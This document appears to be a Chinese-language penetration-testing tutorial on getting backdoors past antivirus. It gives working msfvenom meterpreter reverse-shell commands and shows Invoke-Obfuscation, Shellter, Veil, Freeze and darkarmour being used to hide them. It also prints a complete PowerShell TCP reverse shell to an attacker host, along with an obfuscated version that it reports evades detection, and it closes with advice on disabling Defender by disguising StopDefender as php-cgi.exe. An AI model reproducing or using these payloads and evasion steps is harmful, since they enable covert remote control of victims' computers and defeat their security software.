

# 后门免杀及相关工具

## 一  AV检测方式与逃避技术

1 防御规避

防御规避属于在整个渗透测试过程中避免被发现的技术。防御规避的技术包括：卸载/禁用安全软件或混淆/加密数据和脚本。

同时可以利用手信任的进程来隐藏和伪装恶意软件。

在Mitre Att&ck的框架当中，将Defense Evasion共列出了42个分项。

```
Abuse Elevation Control Mechanism (4)
Access Token Manipulation (5)
BITS Jobs
T1197
Build Image on Host	
Debugger Evasion	
Deobfuscate/Decode Files or Information
Deploy Container	
Direct Volume Access	
Domain Policy Modification (2)
Execution Guardrails (1)	
Exploitation for Defense Evasion
File and Directory Permissions Modification (2)
Hide Artifacts (10)
Hijack Execution Flow (12)
Impair Defenses (9)
Indicator Removal (9)
Indirect Command Execution
Masquerading (7)
Modify Authentication Process (7)
Modify Cloud Compute Infrastructure (4)
Modify Registry
Modify System Image (2)
Network Boundary Bridging (1)
Obfuscated Files or Information (9)
Plist File Modification
Pre-OS Boot (5)
Process Injection (12)
Reflective Code Loading
Rogue Domain Controller
Rootkit
Subvert Trust Controls (6)
System Binary Proxy Execution (13)
System Script Proxy Execution (1)
Template Injection
Traffic Signaling (2)
Trusted Developer Utilities Proxy Execution (1)
Unused/Unsupported Cloud Regions	
Use Alternate Authentication Material (4)
Valid Accounts (4)
Virtualization/Sandbox Evasion (3)
Weaken Encryption (2)
XSL Script Processing
```

所以如果考虑的更为完善，实际工作中需要考虑到如何规避杀毒软件、IDS、WAF等等的内容。

1.1 AV检测方式

在杀毒软件中，通常利用签名、启发式和基于行为检测。

```
1. 基于特征码的检测-- AV签名是用来便是恶意软件的特征。所以在免杀中需要确保payload与数据库中的任何一直签名不匹配。
2. 基于启发式的检测-- 依照规则或决策来确定二进制文件是否是恶意的。它还查找代码或程序调用中的特定模式。
3. 基于行为检测-- 通过监控识别恶意软件的相关内容，如通过监测运行的程序行为，以发现是否有病毒行为。
```

1.2 逃避技术

1.2.1 硬盘免杀

```
混淆--混淆是指隐藏重要的、有价值的或关键的东西的过程。混淆重组代码，以使其更难分析。
编码--编码数据是涉及使用方案将数据更改为新格式的过程。编码是一个可逆的过程；数据可以编码为新格式并解码为其原始格式。
打包--生成具有较小尺寸的新二进制结构的可执行文件，从而为负载提供新的签名。
加密--加密代码或有效负载并解密内存中的加密代码。解密密钥/函数通常存储在存stub中。
```

1.2.2 内存免杀

```
- 专注于内存操作，不将文件写入磁盘。 
- 通过利用各种WindowsAPIs将有效负载注入进程。 
- Payload然后在单独的线程中在内存中执行。
```


## 二 免杀演示

### 使用Invoke-Obfuscation进行免杀

Invoke-Obfuscation是一款PowerShell混淆工具，可以将PowerShell脚本加密，使得它的检测和分析变得更加困难。
该工具包含多种加密方法，可以单独使用也可以结合使用，以提高混淆的效果。

项目地址：https://github.com/danielbohannon/Invoke-Obfuscation

Invoke-Obfuscation的使用：

生成msf的powershell的后门：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.0.2 LPORT=4444 --arch x64 --platform windows -f psh-reflection -o shell.ps1
```


上传到主机硬盘上，由于特征过于明显则会直接被查杀。


在kali中安装powershell，并启动

```
apt-get install powershell  ###下图为已安装的图
pwsh
```


在pwsh中加载Invoke-Obfuscation.psd1

```
PS> Import-Module ./Invoke-Obfuscation.psd1
PS> cd ..
PS> Invoke-Obfuscation
```




```
TOKEN: 将脚本转换为一个或多个PowerShell解析器令牌的序列
AST: 将脚本转换为抽象语法树
STRING: 混淆脚本中的字符串，使得脚本的意图变得模糊不清
ENCONDING: 将脚本转换为ASCII、Unicode或Base64编码
COMPRESS: 将脚本压缩，使得脚本的大小变小，从而使得脚本的传输和存储更加方便
LAUNCHER: 生成一个启动器，该启动器可以在目标系统上执行混淆后的脚本
```

使用工具对脚本进行混淆：

```
set scriptpath /root/桌面/免杀/Invoke-Obfuscation-master/shell.ps1
Invoke-Obfuscation> ENCODING-->5
Invoke-Obfuscation\Encoding> back
Invoke-Obfuscation> ast
Invoke-Obfuscation\AST> ScriptBlockAst
Invoke-Obfuscation\AST\Scriptblockast> 1
Invoke-Obfuscation\AST\Scriptblockast> out test1.ps1
```


当我们尝试执行脚本时候，依旧提示包含恶意内容。但解决了一部分杀毒软件的检查(https://www.virustotal.com)


安装同样的方式混淆powershell的后门，但区别在于将payload类型更换为reverse_https

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.0.2 LPORT=4444 -f psh-reflection >shell.ps1
# pwsh
PS> Import-Module ./Invoke-Obfuscation.psd1
PS> Invoke-Obfuscation
set scriptpath /root/桌面/免杀/Invoke-Obfuscation-master/shell.ps1
Invoke-Obfuscation> ENCODING-->5
Invoke-Obfuscation\Encoding> back
Invoke-Obfuscation> ast
Invoke-Obfuscation\AST> ScriptBlockAst
Invoke-Obfuscation\AST\Scriptblockast> 1
Invoke-Obfuscation\AST\Scriptblockast> out test1.ps1
```


依旧无法完成理想中的免杀


### 使用Shellter进行免杀

Shellter 是一款动态 shellcode 注入工具，我们可以将shellcode注入到其它程序上，从而来躲避杀毒软件的查杀。

项目地址：https://www.shellterproject.com/ 

Shellter的安装及启动：

```
dpkg --add-architecture i386 && apt-get update
apt-get install wine32:i386
apt-get install shellter
shellter
```


shellter的使用：

```
Choose Operation Mode - Auto/Manual (A/M/H): A
PE Target: /root/winrar.exe
Enable Stealth Mode? (Y/N/H): Y
Use a listed payload or custom? (L/C/H): L
Select payload by index: 1
SET LHOST: 172.16.0.2
SET LPORT: 4444
```


随后将文件拷贝至主机发现依旧尴尬：）。


## 三 工具集合

### 3.1 veil 

项目地址：https://github.com/Veil-Framework/Veil

```
apt-get install veil
/usr/share/veil/config/setup.sh --force --silent
veil
```


有两个免杀的工具，Evasion和Ordnance。

```
Evasion是用做文件免杀
Ordnance可生成在Veil-Evasion中使用的shellcode
```

选择Evasion。

```
Veil>: use 1
Veil/Evasion>: list payload
```


如我们选择使用的payload为go/meterpreter/rev_https.py，则需要使用use 15的方式。


设置好LHOST选项后通过generate生成shell(其他选项可依照需要)。

```
[go/meterpreter/rev_https>>]: set lhost 172.16.0.2
[go/meterpreter/rev_https>>]: generate
```


当尝试将生成的exe文件拖拽至win10中，依旧翻车：）


### 3.2 Freeze

Freeze是一个Payload创建工具，用于规避EDR安全控制，以隐蔽的方式执行shellcode。

项目地址：https://github.com/optiv/Freeze

```
# go build Freeze.go
```


或者Freeze帮助

```
./Freeze -h
Usage of ./Freeze:
  -I string
    	Path to the raw 64-bit shellcode.
  -O string
    	Name of output file (e.g. loader.exe or loader.dll). Depending on what file extension defined will determine if Freeze makes a dll or exe.
  -console
    	Only for Binary Payloads - Generates verbose console information when the payload is executed. This will disable the hidden window feature.
  -encrypt
    	Encrypts the shellcode using AES 256 encryption
  -export string
    	For DLL Loaders Only - Specify a specific Export function for a loader to have.
  -process string
    	The name of process to spawn. This process has to exist in C:\Windows\System32\. Example 'notepad.exe' (default "notepad.exe")
  -sandbox
    	Enables sandbox evasion by checking:
    		Is Endpoint joined to a domain?
    		Does the Endpoint have more than 2 CPUs?
    		Does the Endpoint have more than 4 gigs of RAM?
  -sha256
    	Provides the SHA256 value of the loaders (This is useful for tracking)
```

生成msf的raw文件并进行免杀处理。

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.0.2 LPORT=4444 -f raw > shell64.raw
./Freeze -I shell64.raw -encrypt -O bypass2.exe
```


测试后的结果为：静态的免杀没问题，但是点击执行貌似可以上线，但是马上会被发现：）


### 3.3 darkarmour

项目地址： https://github.com/bats3c/darkarmour

```
apt install mingw-w64-tools mingw-w64-common g++-mingw-w64 gcc-mingw-w64 upx-ucl osslsigncode
python darkarmour.py -h
```


```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.0.2 LPORT=4444 -f exe > shelltcp64.exe
python darkarmour.py -f shelltcp64.exe --encrypt xor --jmp -k fsec.io -o by64-6.exe --loop 1500
```


得到的结果是：静态能够躲过查杀，但是运行后则不行。


### 3.4 掩日

项目地址：https://github.com/1y0n/AV_Evasion_Tool

```
如果使用工具的全部功能，请确保满足以下全部条件：
    64位 Windows 7 或以上操作系统
    .net framework 4.5 或更高版本
    安装 tdm-gcc
    安装 64位 Go 语言环境，并添加到系统环境变量
```


```
msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.0.2 lport=4444 -f c >shell64.c
```


测试生成的工具，免杀失败：）


## 四 思路整合

在上述的测试中，所有的实验均是以一种半成品的场景出现。与我们想要的完美还有着差距。

我们可以 整理下思路，似乎可以设计出来如下的多种方案：

```
1.缩小原后门的特征（减少特殊的关键字如metasploit）
2.免杀后的文件的格式可以扩充到ps、dll、exe等多种方式
3.如果可以直接结束杀软的进程：）
4.特殊的路径	
```


### 4.1 powershell--减少指纹及更复杂的处理

使用更简单的powershell后门作为Invoke-Obfuscation的模板，内容如下：

```
$client = New-Object System.Net.Sockets.TCPClient('172.16.0.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

随后使用Invoke-Obfuscation的token进行处理

```
Invoke-Obfuscation> set scriptpath /root/aaa.ps1
Invoke-Obfuscation> token
Invoke-Obfuscation\Token> all
```


将生成的新内容保存并放置于目标主机中

```
&("{2}{0}{1}"-f'-vaR','iAble','Set')  ("{1}{0}" -f 'G61J','5u')  ( [TyPe]("{1}{0}{2}" -f'xt.ENC','TE','odiNG')  ) ;${CL`IE`Nt} = &("{1}{0}{2}" -f'c','New-Obje','t') ("{3}{1}{5}{0}{2}{6}{4}"-f'cket','t','s.TCPCli','System.Ne','nt','.So','e')(("{0}{2}{3}{1}" -f '172.16.','2','0','.'),443);${St`REam} = ${C`liENt}.("{0}{2}{1}" -f 'G','am','etStre').Invoke();[byte[]]${B`YtES} = 0..65535|.('%'){0};while((${i} = ${s`T`REaM}.("{1}{0}"-f 'ad','Re').Invoke(${B`Y`TeS}, 0, ${ByT`es}."Le`N`gtH")) -ne 0){;${d`AtA} = (.("{3}{1}{2}{0}" -f 'bject','e','w-O','N') -TypeName ("{0}{5}{2}{1}{3}{6}{4}" -f'Syst','xt.','m.Te','ASCIIEnco','g','e','din'))."getST`RI`NG"(${B`ytES},0, ${I});${Se`NDBa`CK} = (.("{1}{0}"-f'x','ie') ${da`Ta} 2>&1 | .("{0}{1}{2}"-f'O','ut-St','ring') );${sEN`DB`Ack2} = ${s`EnDbACK} + 'PS ' + (.("{1}{0}"-f 'wd','p'))."pA`Th" + '> ';${se`Ndb`ytE} = (  ${5uG`6`1j}::"ASc`iI").("{1}{0}{2}"-f'e','GetByt','s').Invoke(${seN`dB`A`cK2});${sTRe`AM}.("{1}{0}"-f 'rite','W').Invoke(${SeNDB`YTE},0,${Sen`DBY`TE}."lEn`gth");${StR`e`AM}.("{0}{1}"-f'F','lush').Invoke()};${clI`ENt}.("{1}{0}" -f 'lose','C').Invoke()
```

在kali中执行‘‘nc -lvp 443’’并于Windows主机中执行powershell，可成功免杀。


### 4.2 使用多重工具进行免杀

Freeze 静态pass

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.0.2 LPORT=4444 -f raw > shell64.raw
./Freeze -I shell64.raw -encrypt -O bypass2.exe
```

darkarmour静态pass

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.0.2 LPORT=4444 -f exe > shelltcp64.exe
python darkarmour.py -f shelltcp64.exe --encrypt xor --jmp -k fsec.io -o by64-6.exe --loop 1500
```

组合下来的情况如下：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.0.2 LPORT=4444 -f raw > shell64.exe
./Freeze -I /root/shell64.raw -encrypt -O bypass.exe
python darkarmour.py -f /root/bypass.exe --encrypt xor --jmp -k fsec.io --loop 1500 -o /root/test.exe
```

测试结果翻车：）


使用cs生成后门


### 4.3 使用特殊路径

将StopDefender_x64.exe放置于%SystemDrive%\PHP5433\，并重命名为如下php-cgi.exe


